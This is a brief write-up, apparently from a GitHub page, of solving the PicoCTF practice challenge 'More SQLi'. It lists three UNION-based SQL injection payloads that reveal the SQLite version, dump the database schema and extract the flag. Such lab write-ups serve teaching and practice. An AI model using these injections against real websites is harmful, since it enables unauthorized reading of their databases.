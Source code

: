 # More SQLi (PicoCTF)

`https://play.picoctf.org/practice/challenge/358`

```
Author: Mubarak Mikail
Description
Can you find the flag on this website. Try to find the flag here.
```

![alt text](assets/more1.png)

![alt text](assets/more2.png)

![alt text](assets/more3.png)

Payload:

`' UNION SELECT 1, sqlite_version(), 3;--`

![alt text](assets/more4.png)

Payload:

`' UNION SELECT name, sql, null from sqlite_master;--`

![alt text](assets/more5.png)

Flag payload:

`' UNION SELECT flag, null, null from more_table;--`

![alt text](assets/more6.png)

